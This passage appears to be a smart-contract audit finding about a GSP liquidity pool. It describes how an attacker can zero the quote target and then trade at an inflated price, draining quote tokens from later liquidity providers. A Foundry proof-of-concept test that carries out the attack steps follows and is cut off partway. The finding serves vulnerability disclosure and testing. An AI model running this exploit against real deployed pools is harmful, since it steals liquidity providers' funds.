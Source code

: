 An attacker can make use of this to obtain a higher price for base token in trade effectively stealing quote assets from second LP / subsequent LP's as follows:
1. Sell 0 amount of quote token. This will make r_state == above_one
2. Next sell base. For this sell, the quadratic target calculation of base target will use (quote reserve - quote target == quote reserve) as delta. This will cause the ratio of (base target / base reserve) to be bigger than actual.

### POC Code
Add the following test to test/GPSTrader.t.sol after importing DODOMath and run `forge test --mt testHash_quoteTargetIs0`
```solidity
   function testHash_quoteTargetIs0() public {
        GSP gspTest = new GSP();
        mockBaseToken = new MockERC20("mockBaseToken", "mockBaseToken", 18);
        
        mockQuoteToken = new MockERC20("mockQuoteToken", "mockQuoteToken", 6);
        
        gspTest.init(
            MAINTAINER,
            address(mockBaseToken),
            address(mockQuoteToken),
            0,
            0,
            1e6,
            500000000000000,
            false
        );
        
        address attacker = address(123);
        mockBaseToken.mint(attacker, type(uint256).max);
        mockQuoteToken.mint(attacker, type(uint256).max);

        vm.startPrank(attacker);
        mockBaseToken.transfer(address(gspTest), 1e12-1);
        mockQuoteToken.transfer(address(gspTest), 0);
        gspTest.buyShares(attacker);

        assert(gspTest._QUOTE_TARGET_() == 0 && gspTest._BASE_TARGET_() ==  1e12-1);

        // donate 1 quote token so that next deposit doens't revert and the ratio is maintained
        mockQuoteToken.transfer(address(gspTest), 1);
        gspTest.sync();
        vm.stopPrank();

        address user = address(1234);
        mockBaseToken.mint(user, type(uint256).max);
        mockQuoteToken.mint(user, type(uint256).max);

        vm.startPrank(user);
        mockBaseToken.transfer(address(gspTest), 1e18);
        mockQuoteToken.transfer(address(gspTest), 1e6);
        gspTest.buyShares(attacker);
        vm.stopPrank();

        // now the attacker can make use of the large (reserve - target) to trade at a higher price
        vm.startPrank(attacker);

        // first call sellquotetoken to make r above one
        gspTest.sellQuote(attacker);
        // the calculated base target will be higher as the required amount to reach equillibrium for quote asset is 2e18 - 4000. Hence the attacker can sellBase at a price > 1 and obtain 2e18-4000 quoteTokens
        address receiver = address(12345);
```